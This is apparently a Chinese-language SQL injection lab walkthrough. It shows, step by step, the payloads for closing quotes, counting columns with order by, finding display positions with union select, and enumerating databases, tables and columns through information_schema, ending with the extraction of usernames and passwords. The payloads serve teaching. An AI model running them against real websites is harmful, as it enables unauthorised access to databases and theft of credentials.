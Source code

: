 ```
?id=1' or '1'='1  //正常
```

![image-20201110132507185](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110132507185.png)

根据报错信息，可以确定输入参数的内容被存放到一对单引号中间

单引号闭合 

```
?id=1' order by 3 %23  //正常
?id=1' order by 4 %23   //报错

SQL注入过程中注释符号有以下几种表达方式：
--+
#
%23
```

![image-20201110133335061](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110133335061.png)

![image-20201110133531856](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110133531856.png)

判断字段数为3



union查询

```
?id=1' and 1=2 union select 1,2,3 --+  #显示位为2，3
```

![image-20201110134014006](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110134014006.png)

```
?id=1' and 1=2 union select 1,version(),database() --+
```

![image-20201110134116338](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110134116338.png)

这里给出union联合查询的使用方法:

```
查数据库名：select database()   // 
查询所有数据库名：union SELECT group_concat(schema_name),2 FROM INFORMATION_SCHEMA.SCHEMATA

爆出所有数据库：SELECT group_concat(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA

查数据库名为fanke下面的表名(16进制编码)：union select 1,table_name,3,4,5 from information_schema.tables where table_schema=0x66616E6B65
information_schema.tables：存储mysql数据库下面的所有表名信息的表
table_schema：数据库名
Table_name：表名

查user表名下的列名信息：union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name=0x75736572
column_name：列名
information_schema.columns ：存储mysql数据库下面的所有列名信息的表
table_name：表名

查user表名下列名username,password的数据：
union select 1,username,password,4,5 from user
```
